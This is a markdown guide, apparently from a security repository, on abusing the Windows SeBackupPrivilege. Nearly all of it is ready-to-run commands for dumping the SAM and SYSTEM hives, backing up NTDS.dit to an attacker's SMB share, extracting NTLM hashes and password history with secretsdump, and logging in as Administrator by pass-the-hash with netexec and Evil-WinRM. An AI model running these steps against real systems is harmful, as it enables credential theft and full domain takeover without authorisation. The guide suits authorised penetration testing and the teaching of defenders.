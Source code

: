 [Refrence](https://2018.romhack.io/slides/RomHack%202018%20-%20Andrea%20Pierini%20-%20whoami%20priv%20-%20show%20me%20your%20Windows%20privileges%20and%20I%20will%20lead%20you%20to%20SYSTEM.pdf)
# SeBackupPrivilege 
## Overview
The `SeBackupPrivilege` allows users to bypass file and directory permissions to back up the system, including sensitive files like the Security Account Manager (SAM) and Active Directory database (NTDS.dit). Exploiting this privilege enables:

- Extracting NTLM hashes for offline cracking or Pass-the-Hash (PTH) attacks.
- Circumventing NTFS file and directory permissions through the backup application interface.

### First Chech if this privilege exist or not by 

```powershell
whoami /priv
```
![image](https://github.com/user-attachments/assets/e128fa19-af6f-4149-ab28-73932bc6bc76)

---

## Method 1: Backup Windows Registry and Extract Local NTLM Hashes

### Tools Used
- **Diskshadow**: Creates copies of active drives.
- **Robocopy**: Copies files and directories.
- **Impacket-secretsdump**: Extracts NTLM hashes.
- **Evil-WinRM**: Used for PTH attacks.

### Steps

1. **Create a temporary directory:**
   ```
   mkdir C:\temp
   ```

2. **Copy the SAM and SYSTEM hives to the temporary directory:**
   ```
   reg save hklm\sam C:\temp\sam.hive
   reg save hklm\system C:\temp\system.hive
   ```

3. **Extract NTLM hashes using Impacket's secretsdump:**
   ```
   impacket-secretsdump -sam sam.hive -system system.hive LOCAL
   ```

4. **Perform a PTH attack using Evil-WinRM:**
   ```
   evil-winrm -i <ip> -u "Administrator" -H "<hash>"
   ```

5. **Optional:** Copy specific files bypassing permissions:
   ```
   robocopy /b c:\users\administrator\desktop\ c:\temp
   ```

---

## Method 2: Extract Active Directory NTDS.dit

### Tools Used
- **wbadmin**: Used for backups.
- **Evil-WinRM**: For downloading extracted files.
- **Linux SMB Server**: For file transfer from Windows to Linux.

### Steps

1. **Prepare an NTFS disk on Kali Linux:**
   - Ensure the disk is formatted with NTFS to store files from the backup. -> [CheckMe](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/blob/main/Support/Create%20NTFS%20Disk%20on%20kali-linux.md)

2. **Set up an SMB server on Kali Linux:**
   - Use `smbserver` to create a shared directory accessible from Windows. -> [CheckMe](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/blob/main/Support/File%20Transfer.md)

3. **Initiate a backup of the NTDS folder using wbadmin:**
   ```powershell
   echo y | wbadmin start backup -backuptarget:\\<linux_ip>\public -include:c:\windows\ntds\
   ```
   - Note: This process can take considerable time.
   - Once it finished you will found the following
     ![Pasted image 20250429230647](https://github.com/user-attachments/assets/00ebb440-bd41-4652-ae4b-1159894e6a99)

4. **Verify backup versions:**
   ```powershell
   wbadmin get versions
   ```
  ![Pasted image 20250429230758](https://github.com/user-attachments/assets/ad3d7839-0e36-4120-968b-343e931fea15)

5. **Recover the NTDS.dit file:**
   ```
   echo Y | wbadmin start recovery -version:<backup_version> -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:c:\temp -notrestoreacl
   ```powershell
   example
   ```powershell
   echo Y | wbadmin start recovery -version:04/30/2025-02:34 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:c:\temp -notrestoreacl
   ```
  ![Pasted image 20250429231914](https://github.com/user-attachments/assets/1f9173d8-c786-4034-aa38-eedee5641246)

7. **Download the NTDS.dit file using Evil-WinRM:**
   ```powershell
   download ntds.dit
   ```
8. **Create system.hive file adn download it**
   ``` powershell
   reg save hklm\system C:\temp\system.hive
   ```
9. **Extract secrets**
  ``` shell
  secretsdump.py -ntds <ntds.dit> -system <system.hive> Local
  ```
  ![image](https://github.com/user-attachments/assets/392c3522-088f-48e4-bc93-dc094512d7d0)

  with history to get changed credentials:
  ``` shell
  secretsdump.py -ntds <ntds.dit> -system <system.hive> -history Local
  ```
  ![image](https://github.com/user-attachments/assets/e578c8bf-73ea-4411-b89f-f1570dbec664)

10. **Check The Hash**
    ``` shell
    netexec smb $IP -u <'Administrator'> -H <'Hash'> "whoami"
    ```
12.  **Perform a PTH attack using Evil-WinRM:**
   ```
   evil-winrm -i <ip> -u "Administrator" -H "<hash>"
   ```
